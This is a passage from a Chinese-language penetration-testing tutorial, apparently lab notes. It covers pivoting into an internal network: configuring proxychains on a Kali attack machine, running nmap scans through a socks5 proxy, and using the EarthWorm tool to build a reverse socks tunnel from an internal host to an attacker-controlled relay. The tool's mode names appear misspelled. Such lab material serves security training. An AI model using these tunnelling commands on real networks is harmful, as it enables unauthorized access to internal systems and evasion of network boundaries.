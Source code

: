 <img src="隧道应用/image-20221029142746814.png" alt="image-20221029142746814" style="zoom:67%;" />	



若你的攻击机为kali的话, 可以设置proxychains的配置文件: `vim /etc/proxychains.conf`, 添加上socks5的代理服务器ip及端口: `socks5 192.168.47.149 6666`

![image-20221029143310308](隧道应用/image-20221029143310308.png)	



使用proxychains命令配合nmap扫描内网主机的指定端口: `proxychains nmap -sT -Pn -p 80 192.168.52.148`

![image-20221029143543132](隧道应用/image-20221029143543132.png)	

​			

## 反向代理

### 拓扑环境

![image-20221029170245675](隧道应用/image-20221029170245675.png)	



### 操作步骤

在代理服务器上执行如下命令, 意思是将本机的1080端口的数据转发至6666端口

```
ew_for_Win.exe -s rcscocks -l 1080 -e 6666
```

![image-20221029165447476](隧道应用/image-20221029165447476.png)	



在内网主机执行如下命令, 意思是将本机的所有流量转发至192.168.52.143的6666端口

```
ew_for_Win.exe -s rsscocks -d 192.168.52.143 -e 6666
```

![image-20221029165524419](隧道应用/image-20221029165524419.png)	



在攻击机设置浏览器的socks5代理为`192.168.47.149:1080`, 随后可直接访问内网主机的web服务

<img src="隧道应用/image-20221029165609560.png" alt="image-20221029165609560" style="zoom:67%;" />	

<img src="隧道应用/image-20221029165716968.png" alt="image-20221029165716968" style="zoom:67%;" />		



# 八、ICMP隧道传输	
